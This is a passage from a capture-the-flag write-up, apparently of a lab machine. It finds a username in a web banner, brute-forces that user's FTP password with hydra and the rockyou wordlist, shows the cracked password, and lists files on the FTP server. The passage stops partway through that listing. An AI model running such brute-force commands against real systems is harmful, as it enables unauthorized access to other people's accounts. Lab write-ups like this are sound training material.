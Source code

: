 In the web we can see the next banner
![](/assets/img/Anexos/Máquina%20Friendly%203-1744394388648.png)
So apparently we have an user, juan. So now we can use this user using `hdyra` and try to brute force his password. 
```shell
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.85
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-11 20:09:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://192.168.1.85:21/
[21][ftp] host: 192.168.1.85   login: juan   password: alexis
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-11 20:10:12
```
We got Juan's password. Now I try to log in using ftp 


```shell
50 Here comes the directory listing.
-rw-r--r--    1 0        0               0 Jun 25  2023 file1
-rw-r--r--    1 0        0               0 Jun 25  2023 file10
-rw-r--r--    1 0        0               0 Jun 25  2023 file100
-rw-r--r--    1 0        0               0 Jun 25  2023 file11
-rw-r--r--    1 0        0               0 Jun 25  2023 file12
-rw-r--r--    1 0        0               0 Jun 25  2023 file13
-rw-r--r--    1 0        0               0 Jun 25  2023 file14
-rw-r--r--    1 0        0               0 Jun 25  2023 file15
-rw-r--r--    1 0        0               0 Jun 25  2023 file16
-rw-r--r--    1 0        0               0 Jun 25  2023 file17
-rw-r--r--    1 0        0               0 Jun 25  2023 file18
-rw-r--r--    1 0        0               0 Jun 25  2023 file19
-rw-r--r--    1 0        0               0 Jun 25  2023 file2
-rw-r--r--    1 0        0               0 Jun 25  2023 file20
-rw-r--r--    1 0        0               0 Jun 25  2023 file21
-rw-r--r--    1 0        0               0 Jun 25  2023 file22
-rw-r--r--    1 0        0               0 Jun 25  2023 file23
-rw-r--r--    1 0        0               0 Jun 25  2023 file24
-rw-r--r--    1 0        0               0 Jun 25  2023 file25
-rw-r--r--    1 0        0               0 Jun 25  2023 file26
-rw-r--r--    1 0        0               0 Jun 25  2023 file27
-rw-r--r--    1 0        0               0 Jun 25  2023 file28
-rw-r--r--    1 0        0               0 Jun 25  2023 file29
-rw-r--r--    1 0        0               0 Jun 25  2023 file3
-rw-r--r--    1 0        0               0 Jun 25  2023 file30
-rw-r--r--    1 0        0               0 Jun 25  2023 file31
-rw-r--r--    1 0        0               0 Jun 25  2023 file32
-rw-r--r--    1 0        0               0 Jun 25  2023 file33
-rw-r--r--    1 0        0               0 Jun 25  2023 file34
-rw-r--r--    1 0        0               0 Jun 25  2023 file35
-rw-r--r--    1 0        0               0 Jun 25  2023 file36
-rw-r--r--    1 0        0               0 Jun 25  2023 file37
-rw-r--r--    1 0        0               0 Jun 25  2023 file38
-rw-r--r--    1 0        0               0 Jun 25  2023 file39
-rw-r--r--    1 0        0               0 Jun 25  2023 file4
-rw-r--r--    1 0        0               0 Jun 25  2023 file40
-rw-r--r--    1 0        0               0 Jun 25  2023 file41
-rw-r--r--    1 0        0               0 Jun 25  2023 file42
-rw-r--r--    1 0        0               0 Jun 25  2023 file43
-rw-r--r--    1 0        0               0 Jun 25  2023 file44
-rw-r--r--    1 0        0               0 Jun 25  2023 file45
```